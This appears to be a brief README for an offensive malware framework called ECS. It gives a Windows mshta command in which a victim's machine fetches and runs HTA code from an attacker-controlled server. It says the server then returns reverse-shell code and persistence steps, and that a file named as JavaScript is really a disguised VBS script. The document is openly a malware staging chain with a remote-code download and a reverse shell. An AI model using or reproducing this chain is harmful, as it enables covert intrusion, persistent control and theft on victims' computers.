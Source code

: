 # ECS
![](./ECC.png)

## <span style="color:blue"> step1:  </span>

 <span style="color:blue"> victim exec the malware or rce on victim : </span>
#### <span style="color:blue"> For windows:  </span>
```powershell 
mshta https://< ecs service url >?uid=< victim uid >&s=1< step number in this >
``` 
## <span style="color:blue"> step 2 </span>
<span style="color:blue"> server response to victim the reversshell code and persistant acts and make main persist malware
acuatlly the file in path ecs/statics/js/step1.js is not javascript in truth its vbs script file and main html project is hta app  </span>


